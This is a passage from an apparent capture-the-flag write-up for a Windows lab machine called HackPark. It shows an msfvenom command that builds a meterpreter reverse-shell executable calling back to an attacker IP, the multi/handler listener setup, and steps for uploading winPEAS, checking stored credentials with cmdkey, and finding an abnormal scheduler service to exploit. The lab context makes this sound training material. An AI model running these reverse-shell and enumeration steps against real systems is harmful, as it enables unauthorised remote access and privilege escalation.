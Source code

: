 ```shell
```

- Create a reverse shell ``msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.x.x.x LPORT=7777 -f exe > thm/rooms/hackpark/reverse.exe`` and upload.
- Find the webserver directory ``dir App_Data /AD /s``
- start msfconsole with ``multi/handler`` and payload ``windows/meterpreter/reverse_tcp`` 
- start the uploaded shell on the target pc 

##   Answer the questions below

You can run metasploit commands such as sysinfo to get detailed information about the Windows system. Then **feed this information into the windows-exploit-suggester script** and quickly identify any obvious vulnerabilities.

**What is the OS version of this windows machine?**

```shell
meterpreter > sysinfo
Computer        : HACKPARK
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
````

- Windows 2012 R2 (6.3 Build 9600)

**Further enumerate the machine.**

- in target machine: ``sysinfo`` copy to sysinfo.txt
- on kali input ``wes sysinfo.txt > system_vulns.txt``
- ``subl system_vulns.txt``
- upload ``winPEASx64.exe`` and run
- ``cmdkey /list``

**What is the name of the abnormal service running?**

- our winpeas found AWSLiteAgent and WindowsScheduler
- ``tasklist /svc``
- Windows Scheduler (WService.exe)

**What is the name of the binary you're supposed to exploit?**

- We need to find the logs of Windows Scheduler

1. ``dir \WService.exe /s`` from root directory to find where we going

```shell
c:\>dir \WService.exe /s
dir \WService.exe /s
 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552

 Directory of c:\Program Files (x86)\SystemScheduler

03/25/2018  10:58 AM            98,720 WService.exe
               1 File(s)         98,720 bytes

     Total Files Listed:
               1 File(s)         98,720 bytes
               0 Dir(s)  39,125,811,200 bytes free
```
